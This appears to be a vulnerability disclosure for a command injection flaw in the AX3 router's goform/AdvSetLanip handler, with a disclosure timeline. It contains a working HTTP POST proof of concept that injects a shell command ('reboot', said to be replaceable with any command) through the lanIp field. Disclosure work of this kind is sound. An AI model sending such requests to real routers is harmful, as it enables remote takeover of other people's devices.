


# Tenda Router AX3 Vulnerability

There is a vulnerability lies in page goform/AdvSetLanip,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)). 

## Description

Vulnerabliity function fromAdvSetLanip(sub_ 511BC)

The variable v5 will directly retrieved from http request parameter lanIp , and execute SetValue(lan.ip,v5);





The value lan.ip is used in the parameters of the system function in many places.

For Example , function TendaTelnet


Once the value of lan.ip is set, the Router will always call the system function with the parameter lan.ip to perform command injection, resulting in RCE.

## POC

```bash
POST /goform/AdvSetLanip HTTP/1.1 
Host: tendawifi.com 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0 Accept: */* 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,enUS;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate 
Content-Type: application/x-www-form-urlencoded; 
charset=UTF-8 
X-Requested-With: XMLHttpRequest 
Content-Length: 25 
Connection: close 
Referer: http://tendawifi.com/index.html 

lanIp=192.168.0.1;reboot;
```

"reboot" can be replaced with any command the attacker wants to execute.

## Timeline

- 2021-12-28  report to CNVD & CVE 

- 2022-01-14  CNVD ID assigned : CNVD-2022-03736